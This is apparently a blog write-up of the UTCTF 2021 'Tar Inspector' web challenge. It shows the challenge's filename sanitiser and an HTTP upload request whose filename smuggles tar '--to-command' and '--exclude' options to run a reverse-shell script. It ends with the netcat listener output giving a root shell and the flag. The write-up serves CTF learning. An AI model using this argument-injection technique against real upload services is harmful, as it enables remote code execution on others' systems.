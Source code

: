 ```yaml
---
layout: post
date: 2021-03-14 00:00:11
title: "UTCTF 2021 Write Up"
categories: 
- CTF
tags: 
- RCE
author:
  - Jeongwon Jo

---
```

## <span style="color:#21C587"></span> (Web) Tar Inspector [994 pts]

> Tar Inspector challenge is get the shell using RCE and read the flag

Many people asked for a hint and the contest provided the code for the secure_filename() function. So first, I'll see `secure_filename()`.

```python
# creates a secured version of the filename
def secure_filename(filename):
    # strip extension and any sneaky path traversal stuff
    filename = filename[:-4]
    filename = os.path.basename(filename)
    # escape shell metacharacters
    filename = re.sub("(!|\$|#|&|\"|\'|\(|\)|\||<|>|`|\\\|;)", r"\\\1", filename)
    filename = re.sub("\n", "", filename)
    # add extension
    filename += '__'+hex(randrange(10000000))[2:]+'.tar'
    return filename
```
You can see that the secure_filename() function gets the file name excluding the extension, escapes all special characters, and creates a new file name by including a random value between the file names.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/1.png?raw=true)

Go into the challenge and you can will see the file upload function.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/2.png?raw=true)

If you upload any file, you can see that only the `.tar` extension can be uploaded. Probably I need to make RCE happen when i unpack the tar file. When unpack the tar file, I can execute file `using --to-command` option :)

- Scenario

1. I compress the reverse shell code to tar file and I upload in server.
2. If you upload the tar file, you can see the newly created file name.
3. If you upload the created file again by name, it will be unpack and the file will be executed. Obviously, you need to add the `--to-command` option at this time.
4. And since the last in the file must be `.tar`, you can bypass it using the `--exclude` option.

![](https://github.com/wjddnjs33/image/blob/main/UTCTF%202021/3.png?raw=true)

After uploading the tar file, you can see a file named `pocas__bf9d0.tar` was created :) Now, When you unpack the `pocas__bf9d0.tar` file, you can execute the reverse shell file.

```
POST /upload HTTP/1.1
Host: web2.utctf.live:8123
Content-Length: 1566
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytCvRhaPJjhVCXGrN
Connection: close

------WebKitFormBoundarytCvRhaPJjhVCXGrN
Content-Disposition: form-data; name="file"; filename="pocas__bf9d0.tar --to-command=python3${IFS}pocas.py --exclude=pocas.tar"
Content-Type: application/x-tar


------WebKitFormBoundarytCvRhaPJjhVCXGrN--

```
I used the `--to-command`/`--exclude` option as above.

```
root@py:~# nc -lp 80
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/tmp/extracts
# cat /flag.txt
utflag{bl1nd_c0mmand_1nj3ct10n?_n1c3_w0rk}
#
```
You can see that it is unpacked, and the file is executed to get the shell :)

> FLAG : utflag{bl1nd_c0mmand_1nj3ct10n?_n1c3_w0rk}

---
